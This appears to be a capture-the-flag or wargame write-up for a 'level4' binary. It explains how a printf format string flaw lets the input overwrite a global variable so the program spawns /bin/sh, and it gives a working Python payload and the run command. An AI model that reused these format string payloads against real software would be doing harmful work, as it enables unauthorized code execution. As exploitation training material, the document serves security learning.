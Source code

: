 # LEVEL4

## EXPLANATIONS
### BINARY BEHAVIOR
- 3 Functions : main, p and n   
- main call n()
- n()  
->read 512 char on stdin with fgets and put them in buf  
-> call p(buf)  
--> p call printf with buf (format string)  
-> then cmp the variable \<m\> 0x8049810 and 16930116  
--> if succed the programm call system("/bin/sh")

### EXPLOI STRATEGY
- We are going one again use the format string exploit of printf. 
To do it we are going to write the value 16930116 in m with the identifier %n.  
- The string that we pass threw the stdin will be :  
->0x08049810 ( the address of m)  
-> %16930112x (padding to reach the value)  
->%12\$n (write the value into the address)
### RUN COMMAND
```
python -c "print('\x08\x04\x98\x10'[::-1] + '%16930112x' + '%12\$n')" > /tmp/exploit_string
cat /tmp/exploit_string - | /home/user/level4/level4
```